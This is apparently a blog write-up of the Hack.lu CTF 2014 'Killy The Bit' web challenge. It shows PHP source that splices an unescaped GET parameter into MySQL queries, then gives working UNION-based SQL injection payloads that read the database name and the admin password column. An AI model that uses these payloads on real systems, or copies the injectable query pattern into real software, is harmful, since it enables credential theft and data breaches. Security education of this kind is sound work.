



+++
title="Hack.lu CTF 2014: Web 200 - Killy The Bit"
date="2014-10-24"
description="A writeup of a challenge in Hack.lu CTF 2014 where we used UNION Based SQL Injection technique"
author="Nagesh Podilapu"
[taxonomies]
tags=["security", "ctf", "SQLi"]
+++



In this challenge they provided a link to the website of Royal Bank of Fluxembourg and it's source.



Source code of the given webpage

```php
<?php
include 'config.php';

echo "<html><head><style type='text/css'><!-- body {background-image: url(bg.jpg);background-repeat: no-repeat;height: Percent;width: Percent; background-size: cover;}//--></style> <title>Royal Bank of Fluxembourg</title></head></html>";

<!-- blind? we will kill you -->
if(isset($_GET['name']) && $_GET['name']!='' && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name'])) {
    $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

    if(mysql_fetch_object($res)) {
        // Generation of new password
        //<topsecure content>
        // this was filtered during the creation of the phps file
        //</topsecure content>
        die("A new password was generated and sent to your email address!");
    } else {


    $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            echo "We couldn't find your username, but it sounds like this user:<br>";
        } else {
            die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
        }
        $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        while($row = mysql_fetch_object($res)) {
           echo $row->name;
           echo "<br>";
        }
    }
} else {

echo "<div style='width:800px; margin:0 auto;'><hr><h1><center>Royal Bank of Fluxembourg<center></h1><hr><br><br>Dear users,<br>We were hacked by Killy the Bit! Please use this site to generate your new password. Login will be available on the 23.10.2014 10:01 CEST<br><br><br></div>";
     echo '<div style="width:400px;margin:0 auto;"<pre></img></pre><br><br>';
    echo '<form action="#" method="get">Please enter your username: <br><input type="text" name="name"><br><input type="submit" name="submit" value="Generate"></form></div>';
}
?>
```

After having a glance at the given code, we found that challenge Author used **where name=** in one query and **where name sounds like** in other query. So we have to exploit this challenge with the help of sounds like query.

I submitted **admia** as username so 1st query returns no results so we will move to else part of the code where sounds like query returns 1 row because admin just sounds like **admia**.

Then I quickly applied this payload

```
admia' UNION select database(),2 LIMIT 1,2 --
Note: There is a whitespace after `--` in the query.
```

Resulted in
```
We couldn't find your username, but it sounds like this user: ctf-level
```

Now we know the database name is ctf-level. And table name in **user** we can see it in given source code. And after some time admin gave a hint that password column name is **passwd**. So I made a query like this

```
admia' UNION select passwd,2 from user where name='admin' LIMIT 1,2 --
Note: There is a whitespace after '--' in the query.
```

Which resulted in
```
We couldn't find your username, but it sounds like this user:
flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}
```



Voila!! [r3b00+](https://ctftime.org/team/4882) awarded 200 pts

Thanks for Reading.. Feel free to comment :)
